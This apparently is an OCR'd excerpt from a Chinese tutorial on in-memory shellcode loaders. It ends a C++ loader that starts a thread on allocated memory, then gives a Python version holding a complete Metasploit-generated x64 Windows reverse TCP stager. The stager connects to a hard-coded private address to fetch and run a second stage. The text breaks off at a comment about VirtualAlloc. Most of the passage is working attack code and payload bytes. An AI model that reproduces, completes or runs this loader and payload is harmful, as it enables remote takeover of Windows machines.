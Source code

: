 ```cpp
    // 创建一个新的线程来执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);

    // 等待新创建的线程执行完成
    WaitForSingleObject(hThread, INFINITE);

}
```



下述是申请内存加载的python版本代码:

```python
#使用MSF生成的python格式的ShellCode
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
buf += b"\x41\x50\x52\x48\x31\xd2\x51\x65\x48\x8b\x52\x60"
buf += b"\x56\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7"
buf += b"\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0"
buf += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
buf += b"\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41\x51\x8b"
buf += b"\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
buf += b"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48"
buf += b"\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x50"
buf += b"\x49\x01\xd0\x8b\x48\x18\xe3\x56\x48\xff\xc9\x4d"
buf += b"\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0"
buf += b"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1"
buf += b"\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
buf += b"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58"
buf += b"\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59"
buf += b"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
buf += b"\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49"
buf += b"\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49"
buf += b"\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"
buf += b"\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
buf += b"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
buf += b"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41"
buf += b"\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50"
buf += b"\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"
buf += b"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf"
buf += b"\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
buf += b"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
buf += b"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00"
buf += b"\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"
buf += b"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8"
buf += b"\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20"
buf += b"\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00"
buf += b"\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4"
buf += b"\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
buf += b"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba"
buf += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
buf += b"\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00"
buf += b"\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41"
buf += b"\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"
buf += b"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6"
buf += b"\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
buf += b"\xf0\xb5\xa2\x56\xff\xd5"

#bytearray()函数返回一个新字节数组
shellcode= bytearray(buf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
```